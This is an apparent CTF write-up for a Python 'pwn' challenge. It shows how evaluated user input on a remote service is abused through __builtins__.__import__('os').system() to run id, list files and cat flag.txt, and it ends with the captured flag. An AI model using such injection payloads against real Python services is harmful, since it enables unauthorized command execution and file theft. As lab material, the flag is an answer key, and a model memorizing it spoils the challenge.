





# No Step On Snek
## Challenge
Type: Pwn
```
I heard you guys like python pwnables

nc umbccd.io 4000
```

## Solve


But the the maze changes every time and nothing happens when you give "w", "a", "s", "d" as input. A script is not the solution this time!

Let's try if we can use some python [builtins](https://docs.python.org/3.9/library/functions.html) or not, as it says in the challenge description.
```python
__builtins__.help()
```

We can definitely use builtins!!!

Use following for PoC:
```python
__builtins__.__import__("os").system("id")
```


Now we just need to find the flag and read it, listing can help us.
```python
__builtins__.__import__("os").system("ls -al")
```


Such a luck!
```python
__builtins__.__import__("os").system("cat flag.txt")
```


We've successfully captured the flag!! ``DawgCTF{bUt_iT'5_c@ll3d_1nput}``

***Written by f4T1H***
